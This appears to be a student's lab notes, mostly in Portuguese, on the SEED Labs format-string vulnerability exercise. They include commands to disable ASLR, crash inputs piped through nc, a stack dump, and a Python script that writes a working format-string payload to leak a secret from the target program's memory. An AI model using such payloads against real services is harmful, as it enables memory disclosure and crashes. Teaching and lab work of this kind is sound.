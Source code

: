<!--
Notes:
format strings parecido com buffer overflow
menos tecnico que buffer overflow

ctf relativamente simples
-->
# Seed labs guide (Format-String vulnerability Lab)

<!--from the guide:
Some programs allow users to provide the entire or part of the
contents in a format string. If such contents are not sanitized, malicious users can use this opportunity to get
the program to run arbitrary code. A problem like this is called format string vulnerability.
--
$ sudo sysctl -w kernel.randomize_va_space=0
>
<!--
argumentos na stack
f {
printf("%d", n);
}
stack:
stack frame de f
%d
n

printf("%d %d", n)
vai ler cenas arbitrárias da stack
%d %d %d ... ler qqer cena da stack

printf("%d", n)
string "%d"
n
address to the string (in the stack)

e.g.
f(4, 5)
stack:
5
4  <- f points to here


printf("%d")

stack:
string (e.g "%d")
&string


printf("ABCD%d")

stack:
ABCD%d      %x  -> dá o ABCD (primeiros 4 bytes da string e depois vai imprimir os propios valores de %d)
&string     %x


"0xABCD%d" (ABCD como bytes)
ao imprimir %d vai aparacer igual (ABCD)

Quantos percentagens precisas de ter para chegar à tua string
ataque:
%x%x...%s
-->
<!--
compiling the program with make -> we can see some compilation warnings related to format strings
-->

<!--
crashed with python3 -c 'print("%d" * 1500) > file.txt
cat file.txt | nc ..
also crashed with "%d%d%d%d (*1500)" (com aspas)
and printed the stack
-->

<!--
target 0x11223344

secret message 0x080b4008

-->



<!--
python3 -c 'print("ABCD " + "%.8x " * 64)' > badfile
para chegar ao 44434241 (ABCD em little-endian) precisamos de 64 %x
-->
<!--
@
1122334410008049db580e532080e61c0ffffd800ffffd72880e62d480e5000ffffd7c88049f7effffd8000648049f4780e53205dc5dcffffd800ffffd80080e9720000000000000000000000000018de4c0080e500080e5000ffffdde88049effffffd8005dc5dc80e5320000ffffdeb40005dcA secret message

-->
```python
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0
number  = 0x080b4008
content[0:4] = (number).to_bytes(4,byteorder='little')

# This line shows how to construct a string s with
#   12 of "%.8x", concatenated with a "%n"
s = "%x" * 63 + "%s"

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[4:4 + len(fmt)] = fmt

# This line shows how to store a 4-byte string at offset 4
# content[4:8]  =  ("abcd").encode('latin-1')


# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

